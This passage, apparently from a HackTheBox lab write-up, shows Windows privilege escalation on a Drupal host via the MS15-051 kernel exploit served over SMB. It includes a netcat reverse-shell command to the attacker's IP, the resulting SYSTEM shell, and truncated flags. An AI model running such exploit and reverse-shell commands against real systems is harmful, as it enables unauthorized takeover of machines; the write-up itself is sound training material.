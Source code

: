 ```

```

Immediately that points to a kernel exploit. I’ve done a few different ways to enumerate for Windows kernel exploits in recent posts ([Devel without MSF](/2019/03/05/htb-devel.html#privesc-web--system), [Devel with MSF](/2019/03/05/htb-devel.html#privesc-alternative-with-metasploit), [Granny with MSF](/2019/03/06/htb-granny.html#privesc-to-system)), so I won’t spend too much time enumerating here.

I like [this](https://github.com/51x/WHP) reference for finding Windows Exploits. MS15-051 jumps out as one I’ve used successfully before.

### MS15-051

I’ll grab it from here: https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

I’ll use `smbserver` to share the 64-bit version. Then I’ll run:

```

PS C:\inetpub\drupal-7.54> \\10.10.14.14\share\ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 3012 created.
==============================
nt authority\system

```

I can use it to get a shell as well:

```

C:\inetpub\drupal-7.54>\\10.10.14.14\share\ms15-051x64.exe "\\10.10.14.14\share\nc64.exe -e cmd.exe 10.10.14.14 443"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1612 created.
==============================

```

```

root@kali# rlwrap nc -lvnp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:50875.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
nt authority\system

```

Now I can get the flags:

```

C:\Users>type dimitris\desktop\user.txt
ba22fde1...

C:\Users>type administrator\desktop\root.txt.txt
4bf12b96...

```